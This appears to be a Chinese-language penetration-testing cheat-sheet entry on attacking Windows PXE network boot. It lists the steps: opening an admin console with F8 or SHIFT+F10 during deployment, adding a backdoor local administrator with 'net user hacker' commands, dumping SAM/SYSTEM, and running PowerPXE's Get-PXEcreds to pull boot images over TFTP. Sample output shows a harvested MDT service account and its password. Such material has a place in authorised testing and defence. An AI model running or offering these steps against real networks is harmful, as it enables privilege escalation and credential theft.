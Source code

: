 	PXE 允许工作站通过使用 TFTP（普通 FTP）协议从服务器检索操作系统映像来从网络启动。这种网络引导允许攻击者获取图像并与之交互。
	在 PXE 引导期间按[F8]可在部署的计算机上生成管理员控制台。
	在初始 Windows 设置过程中按[SHIFT+F10]以调出系统控制台，然后添加本地管理员或转储 SAM/SYSTEM 注册表。
	net user hacker Password123! /add
	net localgroup administrators /add hacker
	使用PowerPXE.ps1 (https://github.com/wavestone-cdt/powerpxe)提取预启动映像（wim 文件）并挖掘它以找到默认密码和域帐户。
	导入模块
	PS > Import-Module .\PowerPXE.ps1
	执行攻击
	PS > Get-PXEcreds -InterfaceAlias Ethernet
	PS > Get-PXECreds -InterfaceAlias « lab 0 » 
	等待dhcp分配IP
	>> Get a valid IP address
	>>> >>> DHCP proposal IP address: 192.168.22.101
	>>> >>> DHCP Validation: DHCPACK
	>>> >>> IP address configured: 192.168.22.101
	从 DHCP 响应中提取 BCD 路径
	>> Request BCD File path
	>>> >>> BCD File path:  \Tmp\x86x64{5AF4E332-C90A-4015-9BA2-F8A7C9FF04E6}.bcd
	>>> >>> TFTP IP Address:  192.168.22.3
	下载BCD文件并解压wim文件
	>> Launch TFTP download
	>>>> Transfer succeeded.
	>> Parse the BCD file: conf.bcd
	>>>> Identify wim file : \Boot\x86\Images\LiteTouchPE_x86.wim
	>>>> Identify wim file : \Boot\x64\Images\LiteTouchPE_x64.wim
	>> Launch TFTP download
	>>>> Transfer succeeded.
	解析 wim 文件以找到数据
	>> Open LiteTouchPE_x86.wim
	>>>> Finding Bootstrap.ini
	>>>> >>>> DeployRoot = \\LAB-MDT\DeploymentShare$
	>>>> >>>> UserID = MdtService
	>>>> >>>> UserPassword = Somepass1
